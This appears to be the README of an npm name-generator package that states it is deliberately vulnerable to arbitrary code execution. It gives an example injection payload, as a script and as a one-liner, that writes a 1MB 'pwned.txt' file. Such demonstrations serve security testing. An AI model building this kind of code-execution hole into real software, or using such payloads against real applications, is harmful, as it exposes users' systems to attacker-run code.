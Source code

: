 # mad-name-generator

MAD Name Generator for gamers
Based on andreasonny83 unique name generator:
https://www.npmjs.com/package/unique-names-generator

This package is vulnerable to Arbitrary Code Execution.
The parameter passed to the function is executed as a command inside a shell, which allows attackers to execute
arbitrary code.

Example:

```js
// index.ts

console.log(generateRandomName('console.log("Hello")'));

```

Of course more malicious payloads can be used.
Let's take a look at the source code:

```js
var fs = require("fs"), stream = fs.createWriteStream("pwned.txt", { flags: "w" });
const megabyte = "1000000", outputStr = "yougotpwned";
for (var i = 0; i < megabyte / outputStr.length; i++) {
  stream.write("yougotpwned");
}
stream.end();
```

The one-liner command for the above code is:

```js
    'var fs=require("fs"),stream=fs.createWriteStream("pwned.txt",{flags:"w"});const megabyte="1000000",outputStr="yougotpwned";for(var i=0;i<megabyte/outputStr.length;i++) {stream.write("yougotpwned");}stream.end();'
```

This will create a file with 1MB of data.
The file is created in the current working directory of the application.
